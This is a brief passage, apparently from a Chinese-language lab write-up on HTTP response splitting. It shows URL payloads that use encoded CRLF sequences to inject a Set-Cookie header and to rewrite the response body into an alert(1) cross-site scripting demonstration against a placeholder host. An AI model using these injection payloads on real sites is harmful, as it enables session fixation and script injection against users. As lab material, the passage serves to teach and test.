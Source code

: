 我们将请求中插入编码，就可以注入Set-Cookie头。

```
payload：[http://your-ip:8080/%0d%0aSet-Cookie:%20a=1](http://your-ip:8080/ Set-Cookie: a=1)
```

![img](assets/wps1-1690344952704-1.jpg) 

#### 2.1.2.2.**XSS弹窗**

我们发送两个连续的换行\r\n后，可以直接修改返回报文的返回体。插入js代码引发xss。

```
payload：[http://your-ip:8080/%0d%0a%0d%0aalert(1)](http://your-ip:8080/ alert(1))
```

![img](assets/wps2-1690344952705-2.jpg) 
